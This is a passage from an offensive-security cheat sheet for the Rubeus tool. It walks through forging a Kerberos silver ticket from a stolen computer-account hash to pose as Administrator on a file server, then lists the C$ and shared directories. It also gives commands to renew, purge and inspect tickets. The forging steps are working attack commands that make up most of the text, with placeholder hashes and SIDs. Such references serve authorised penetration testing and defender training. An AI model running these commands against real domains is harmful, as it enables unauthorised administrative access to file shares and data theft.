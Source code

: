 
### Scenario 4: Have Computer Account Hash, Want Access

**Goal:** Create silver ticket for specific service

```powershell
# You have: FILESERVER$ computer account hash (from secretsdump)
# FILESERVER$:1105:aad3b435b51404eeaad3b435b51404ee:abc123def456:::
# Hash: abc123def456

# Create silver ticket for CIFS access
Rubeus.exe silver /rc4:abc123def456 /domain:corp.local /sid:S-1-5-21-XXX-XXX-XXX /user:Administrator /service:cifs/FILESERVER.corp.local /ptt

# Access file server
dir \\FILESERVER\C$
dir \\FILESERVER\SharedDocs$
```

**Time: 30 seconds**

---

## Advanced Options & Techniques

### Renew Ticket

```powershell
# Renew ticket before it expires
Rubeus.exe renew /ticket:BASE64_TICKET

# Auto-renew all tickets
Rubeus.exe renew
```

---

### Purge Tickets

```powershell
# Remove all tickets from current session
Rubeus.exe purge

# Remove specific LUID tickets (requires elevation)
Rubeus.exe purge /luid:0x3e7
```

---

### Describe Ticket

```powershell
# Parse and display ticket details
Rubeus.exe describe /ticket:ticket.kirbi

# From base64
Rubeus.exe describe /ticket:BASE64_STRING

# Output shows:
# - User
# - Domain
# - Start/End time
# - Encryption type
# - Service name
# - Flags
```

---